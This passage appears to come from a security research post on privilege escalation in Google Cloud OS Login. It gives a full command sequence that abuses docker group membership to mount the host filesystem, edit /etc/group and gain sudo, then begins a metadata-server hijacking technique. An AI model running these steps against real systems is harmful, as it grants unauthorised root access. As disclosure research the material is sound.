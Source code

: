 Similar to the scenario described above, all OS Login users who authenticate via SSH are added to the local `docker` group. Docker is not installed by default on any OS Login-compatible compute images, so only systems that have intentionally installed Docker become vulnerable to this vector.

Members of this group also have multiple methods to escalate privileges, and the [official documentation](https://docs.docker.com/engine/install/linux-postinstall/) specifically states *"The docker group grants privileges equivalent to the root user."*.

This method is also quick and easy, and can be done as follows:

```
# Observe we are not root
sudo id

# Mount the host OS into a new Docker container and access an interactive shell
docker run -v /:/mnt/host -ti alpine:latest

# Edit the groups file
vi /mnt/host/etc/group

# Find the line for "google-sudoers' and add your low privilege OS Login username to the end

# Exit from the docker container and from the host shell
exit
exit

# SSH back into the box
ssh -i ~/.ssh/id_rsa lowpriv_notreal_com@[INSTANCEIP]

# Observe we are members of google-sudoers
groups

# Observe we are root
sudo id
```

#### Video demonstration

<video width="640" height="480" controls>
  <source type="video/mp4" src="/images/post-oslogin/docker.mp4">
</video>

### Privilege escalation via metadata server hijacking

Similar to both scenarios above, all OS Login users who authenticate via SSH are added to the local `adm` user group. Despite the name, that group is not actually granted administrative rights. Here is [a description from the Debian wiki](https://wiki.debian.org/SystemGroups):

*"Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group."*

Compute instances in GCP use DHCP to configure their network interface. Seven of the images that Google provides implement the `dhclient` binary in such a way that the DHCP transaction ID (aka xid) is recorded in system logs.
